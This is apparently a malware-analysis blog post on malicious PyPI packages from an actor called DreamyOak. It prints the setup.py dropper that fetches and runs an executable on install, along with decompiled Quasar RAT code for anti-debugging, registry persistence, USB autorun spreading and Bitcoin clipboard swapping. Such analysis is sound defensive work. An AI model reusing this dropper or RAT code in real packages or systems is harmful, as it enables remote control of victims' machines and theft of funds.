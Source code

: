 ```yaml
---
title: "DreamyOak Quasar Malware"
date: 2023-07-22T14:01:23-05:00
draft: false
series: Malware Analysis
tags: ['python','malware']
summary: "Following the kill chain of a malicious Python package, and decompiling a basic Quasar RAT while rapidly learning some valuable lessons."
---
```


Recently we were flagged for the detection of a threat actor we've seen a few times in the past, DreamyOak. This individual has maintained a fairly consistent presence on the Python Package Index, often using the pseudonym 'Nagogy' to distribute their malware. In the most recent flags, **nagiepy v3.422.0** and **nageir v0.1.2** pinged off of our detection schemas, and were promptly reported and removed. Let's take a deep look into what these files actually are. I'm going to walk through this in the sequence of events that I took during the actual analysis of this script.

## Initial Analysis

```python
import requests
import os
import subprocess
url = '****************/cdn/MEYeniKS.exe'
response = requests.get(url)

with open('windows.exe', 'wb') as f:
    f.write(response.content)
subprocess.run('windows.exe', check=True)
```

Pretty simple dropper script, runs during **setup.py**, drops a file, then runs it. For the uninitiated, **setup.py** is a script used to... well, setup Python packages. PIP interfaces with **setup.py** to determine requirements and information, and as such, allows the arbitrary execution of code contained within **setup.py**. Which means, subsequently, that simply `pip install <package>` would download and run this payload.

But we can do better than just determining this is a dropper, let's dig a little deeper. I went ahead and curled down the executable from the URL and ran it through Detect It Easy.

```bash
remnux@remnux:~/Malware/nageir$ diec MEYeniKS.exe
PE32
    Library: .NET(v4.0.30319)[-]
    Compiler: VB.NET(-)[-]
    Linker: Microsoft Linker(8.0)[GUI32]
```

Dotnet's are always fun. As an aside, I got to about this point, and spent 30 minutes trying to figure out where the Dotnet SDK was on REMnux, before acquiescing and consulting the documentation, which... let me know that ILSpy, the program I was going to use to disassemble this, was already installed in command line form via `ilspycmd`. Enjoy some schadenfreude.

Anywhoozit, whack it with the ILSpy bat: `ilspycmd MEYeniKS.exe`. And out pops... well, exactly what we're looking for. I appreciate it when it's easy.

## Diving into .NET

The first indicator of what exactly I might be looking at came in the form of **QuasarClient**:

```csharp
 internal static class Program
 {
  public static QuasarClient ConnectClient;

  private static ApplicationContext _msgLoop;
```

Quasar is a recognized RAT. Got it by the first line, we're done here, pack it up and send 'em home...

Or not. There's about 20,000 lines of code here. Certainly there's something else going on. Let's dig a little deeper into what in the world DreamyOak has for us.

```csharp
if (Settings.ANTIDEBUG){
 if (Debugger.IsAttached){
  Process.GetCurrentProcess().Kill();
  }
 if (IsDebuggerPresent()){
  Process.GetCurrentProcess().Kill();
  }
 }
if (Settings.ENABLEANTIVM && IsAntiVM()){
 Process.GetCurrentProcess().Kill();
 }
if (Settings.ENABLEANTISANDBOXIE && DetectSandboxie()){
 Process.GetCurrentProcess().Kill();
 }
```

Well, it's an *attempt* at AntiVM and AntiDebugger. As an aside, it's very entertaining to me just how often we see this in scripts that statically decompile/disassemble. Your program cannot possibly check if there's a debugger if... I'm not using one. Anyway, moving right along. Side note, I tried to make this a little more human readable. I can assure you that... significant author liberties have been taken in reformatting this code to be less offensive.

```csharp
if (Settings.STARTUPPERSISTENCE){
 Thread thread2 = new Thread((ThreadStart)delegate{
  while (true){
   try{
    if (!keyExists(Settings.STARTUPKEY)){
     RegistryKeyHelper.AddRegistryKeyValue((RegistryHive)(-2147483647), "Software\\Microsoft\\Windows\\CurrentVersion\\Run", Settings.STARTUPKEY, ClientData.CurrentPath, addQuotes: true);
    }
   }
   catch{
   }
   Thread.Sleep(5000);
  }
 });
 thread2.IsBackground = true;
 thread2.Start();
```

Well neato, we've got some registry persistence and with a nice long sleep to make sure we're continually adding it in the event that the registry is restored but the malware itself is not removed. That'll be a little spookier later on.

```csharp
if (Settings.ENABLEUSBSPREAD){
 Thread thread3 = new Thread((ThreadStart)delegate{
  SpreadUSB();
 });
 thread3.IsBackground = true;
 thread3.Start();
}
if (Settings.ENABLEBTCSWAP){
 Thread thread4 = new Thread((ThreadStart)delegate{
  BTCSWAPPERRUN();
 });
 thread4.IsBackground = true;
 thread4.Start();
```

USB Spread? Well that's interesting, we'll discuss that later. Elsewhere, we see BTCSWAP is going to be a generic cryptoclipper. I'm not going to spend a whole lot of time talking about that, but it essentially simply finds valid BTC addresses in your clipboard and replaces them with the malware author's BTC address instead, thus resulting in you sending them money.

Let's talk about USB Spread though.

```csharp
private static void SpreadUSB(){
 //IL_001a: Unknown result type (might be due to invalid IL or missing references)
 //IL_0020: Invalid comparison between Unknown and I4
 DriveInfo[] drives = DriveInfo.GetDrives();
 foreach (DriveInfo val in drives){
  if (!val.get_IsReady() && (int)val.get_DriveType() != 2){
   continue;
  }
  try{
   string text = val.get_Name() + "autorun.inf";
   string text2 = val.get_Name() + Settings.USBSpreadNAME + ".exe";
   if (File.Exists(text)){
    File.Delete(text);
   }
   if (File.Exists(text2)){
    File.Delete(text2);
   }
   using StreamWriter streamWriter = new StreamWriter(new FileStream(text, FileMode.Create, FileAccess.Write));
   streamWriter.WriteLine("[AutoRun]");
   streamWriter.WriteLine("action=" + Settings.USBSpreadNAME + ".exe");
  }
  catch{
  }
 }
}
```

So I consulted with some ~~random people on the internet and Google~~ experts and they revealed to me that this *shouldn't* actually work. But on the premise that I think it's cute, this attempts to write itself to connected USB devices and instantiate the script via an **autorun.inf** by replacing the current autorun scripts. Does it work? Eh-- I don't think out of the box. But if the device is already trusted, this may be used to swap the payload on the device and thus work as expected. Like I said, cute.

Other than that, there isn't anything shocking in here, I thought this got some fail points though.

```csharp
AES.SetDefaultKey(ENCRYPTIONKEY);
TAG = AES.Decrypt(TAG);
VERSION = AES.Decrypt(VERSION);
HOSTS = AES.Decrypt(HOSTS);
SUBDIRECTORY = AES.Decrypt(SUBDIRECTORY);
INSTALLNAME = AES.Decrypt(INSTALLNAME);
MUTEX = AES.Decrypt(MUTEX);
STARTUPKEY = AES.Decrypt(STARTUPKEY);
LOGDIRECTORYNAME = AES.Decrypt(LOGDIRECTORYNAME);
USBSpreadNAME = AES.Decrypt(USBSpreadNAME);
BTCAddress = AES.Decrypt(BTCAddress);
```

Encrypted host information is typically problematic for us-- it would be nice to be able to get the values of the-- oh. Wait.

```csharp
public static string ENCRYPTIONKEY = "CN2muEFrSR3WC5IfEA2p";
```

Never mind, we're good. A quick scroll through the program reveals more or less a lot of the function definitions and not much of interest that wouldn't just be me talking about coding in general, so I'll keep it brief and cut it off here.

## Afterthoughts

It's about now as I'm writing this that another team member has managed to track down some additional information about what, exactly I'm decompiling. And as anticipated (or rather, shown to me) in line 1, this is indeed a simple Quasar RAT. Fun exercise though!

Lessons Learned:

- Google the payload name you found on line 1 so you don't waste your time.
- Prebuilt RE distributions are cool but locating tools requires an iota of brainpower.
- If a function exists overtly named "BTCSWAPPERRUN", the functions probably tell you what everything does.
- Hard-coded AES keys are really cool and everyone should use them in their malware.
